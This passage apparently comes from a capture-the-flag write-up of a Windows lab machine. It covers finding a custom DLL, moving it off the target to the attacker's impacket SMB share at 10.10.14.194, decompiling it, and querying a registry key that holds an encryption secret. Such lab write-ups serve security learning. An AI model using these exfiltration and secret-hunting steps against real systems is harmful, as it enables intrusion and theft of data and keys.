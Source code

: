 ```
d-----         9/24/2023   8:49 AM                roslyn                                                               
d-----         9/24/2023   8:49 AM                x64                                                                  
d-----         9/24/2023   8:49 AM                x86                                                                  
-a----         9/24/2023   8:46 AM        4991352 EntityFramework.dll                                                  
-a----         9/24/2023   8:46 AM         591752 EntityFramework.SqlServer.dll                                        
-a----         9/24/2023   8:46 AM          13824 ExaminationManagement.dll                                            
-a----         9/24/2023   8:46 AM          40168 Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll               
-a----         9/24/2023   8:46 AM         431792 System.Data.SQLite.dll                                               
-a----         9/24/2023   8:46 AM         206512 System.Data.SQLite.EF6.dll                                           
-a----         9/24/2023   8:46 AM         206520 System.Data.SQLite.Linq.dll
```
`ExaminationManagement.dll`  is clearly uniquely built for this environment, so it warrants a deeper look. 
### Analyzing ExaminationManagement.dll
We can transfer the file using `impacket-smbserver`, then decompile in a local Windows environment through [dnSpy](https://github.com/dnSpy/dnSpy). First setting up smbserver on kali:
```
┌──(kali㉿kali)-[~/Documents/Appsanity]
└─$ impacket-smbserver asdf ./ -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Next, copying the file over:
```
PS C:\inetpub\ExaminationPanel\ExaminationPanel\bin> copy .\EntityFramework.dll \\10.10.14.194\asdf\
copy .\EntityFramework.dll \\10.10.14.194\asdf\
```
When we decompile, we can find an interesting behavior on how the service obtains a secret key for encryption; it is querying a registry key.
```cs
private string RetrieveEncryptionKeyFromRegistry()
{
	string result;
	try
	{
		using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
		{
			if (registryKey == null)
			{
				ErrorLogger.LogError("Registry Key Not Found");
				base.Response.Redirect("Error.aspx?message=error+occurred");
				result = null;
			}
```
This registry key should probably be something we can view as well:
```
PS C:\inetpub\examinationpanel\examinationpanel\bin> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MedDigi"
```